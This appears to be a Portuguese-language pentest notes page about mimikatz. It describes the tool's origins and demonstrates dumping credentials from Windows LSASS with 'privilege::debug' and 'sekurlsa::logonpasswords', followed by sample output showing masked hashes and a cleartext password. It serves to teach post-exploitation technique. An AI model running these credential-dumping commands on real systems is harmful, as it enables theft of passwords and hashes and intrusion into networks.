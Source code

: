 <img width="30%" src="https://i.imgur.com/ULwPfn3.png"></img>

# mimikatz
O [mimikatz](https://github.com/gentilkiwi/mimikatz) é uma ferramenta que vai te auxiliar na sua post-exploitation. Ele tem alguns modules/commands pra te adiantar muito, e foi implementado até no meterpreter do metasploit. Vou dar um exemplo de uma utilidade do mimikatz a seguir.<br>

### about mimikatz
o mimikatz começou como um dll injector chamado `kdll`. Depois foi implementado um Pass-The-Hash e foi renomeado para `kdllpipe`. Mais implementações foram sendo feitas até se tornar o mimikatz que hoje é comumente usado.<br>

# password dump
Vamos começar agora a demonstração. Após conseguir `nt/auth`, você pode utilizar o module `sekurlsa` para extrair diversas informações do `lsass (local security authority subsystem service)`, um handle do windows para alocar passwords e tickets. Caso você não seja nt/auth, ao tentar extrair alguma coisa com esse module, você vai se deparar com o seguinte erro: `ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)`.<br><br>

O comando usado para fazer a extração é o `logonpasswords`. Ao utilizar esse comando, seu resultado deve ser algo como:<br>
```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords
Authentication Id : 0 ; x (00000000:000157e6)
Session           : Interactive from x
User Name         : x
Domain            : x-PC
SID               : x-x-x-x
        msv :
         [00000003] Primary
         * Username : x
         * Domain   : x-PC
         * LM       : xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
         * NTLM     : xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
         * SHA1     : xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
        tspkg :
         * Username : x
         * Domain   : x-PC
         * Password : mypassword
        wdigest :
         * Username : x
         * Domain   : x-PC
         * Password : mypassword
        kerberos :
         * Username : x
         * Domain   : x-PC
         * Password : mypassword
        ssp :
         * Username : x
         * Domain   : x-PC
         * Password : mypassword
        credman :
         * Username : x
         * Domain   : x-PC
         * Password : mypassword

```
### Nota
Essa foi só uma demonstração de como você pode usar essa ferramenta, mas ela tem muitos outros modules interessantes. Você pode usar o module `kerberos` pra trabalhar com a api `kerberos` do windows no mimikatz.

[pwn](README.md)<br>
[home](../README.md)
